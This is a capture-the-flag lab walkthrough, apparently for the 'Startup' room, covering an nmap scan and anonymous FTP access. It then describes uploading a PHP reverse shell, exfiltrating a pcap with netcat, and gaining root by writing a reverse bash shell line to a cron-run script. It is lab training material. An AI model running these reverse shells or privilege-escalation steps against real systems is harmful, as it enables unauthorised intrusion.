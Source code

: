 # Startup

To find out what is on the server, we will have to run an nmap scan on the IP address. I will be using the following command:

```csharp
nmap -T4 -A 10.10.201.52 -oN nmap.txt
```

After the scan is done, we can see that port 21 (usually for FTP) is open:

```csharp
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
```

These files look interesting, so I will download them. I following [this website](https://stackoverflow.com/questions/113886/how-to-recursively-download-a-folder-via-ftp-on-linux) to find out how to download files from ftp recursively, instead of one-by-one. This is the command I entered:

```csharp
wget -r ftp://anonymous:@10.10.201.52
```

I then had 3 items in my local directory: an image, a text file, and a directory called "ftp". I now have to find any useful information from these files. I noticed that in the text file, called "notice.txt, there is a name being used:

> Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.

I did get lost a bit here. I knew we had to upload a file to the ftp directory. If you look above, the ftp directory is able to be read and posted to. That connected with the idea that we can access the ftp files on [http://10.10.201.52/files/](http://10.10.201.52/files/), means that we can upload the php file and then access it through the website. For this, we will have to use a php-reverse-shell.php. I had gotten this hint by looking at the write-up at [this website](https://www.badtothepwn.com/2021/01/startup/). I uploaded the php-reverse-shell.php to the ftp directory using the ftp command line. I then went to the website, and then got a shell:

![netcat shell](<../../.gitbook/assets/image (10) (1) (1) (1) (1).png>)

Using netcat, we can send and receive information. Here we are able to send linux commands. I found the recipe file and it was in the root directory of the system.

![output of recipe.txt](../../.gitbook/assets/screenshot-2021-03-07-162434.png)

I now have to find a way to get more forward in the system. I have found a pcap file that looks suspicious.

![](<../../.gitbook/assets/image (11) (1) (1) (1).png>)

I will have to download it to see where to go from there. I realized that using net cat from the server to my own machine, I would be able to send this file to myself. I used [this website](https://superuser.com/questions/98089/sending-file-via-netcat) to know the command for what to run on both sides. I now have the file downloaded onto my own machine. After getting a hint from [this website](https://hackofalltrades.dev/tryhackmes-startup-walkthrough/), I realized that I would have to look through the packets to find the password. I then found it in the data of a packet.

![](../../.gitbook/assets/screenshot-2021-03-07-165106.png)

From here, I can use it to login to the user "lennie". I then used ssh to connect to the server using that username:

![SSH connection](<../../.gitbook/assets/image (9) (1) (1).png>)

In this directory, there was the file "user.txt". Looking in this, gets us an answer to one of the questions for this room.

![user.txt file](../../.gitbook/assets/screenshot-2021-03-07-165659.png)

Now, I have to find a way to get to root. I did need some help here again. I then referred back to the same website and noticed that I would have to edit a file located in /etc/print.sh. Viewing this website, I realized that I have to add a reverse bash shell to this file. This would make the file look like:

```csharp
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.2.54.229/1234 0>&1
echo "Done!"
```

I will then have to run netcat on my machine, that way I am ready for the netcat connection. Running "nc -vlnp 1234" will allow my machine to be open to a connection through netcat. After a couple minutes, I then got a connection to the root user.

![root access](../../.gitbook/assets/screenshot-2021-03-07-171544.png)

I then had root and also the final flag needed to finish the room.
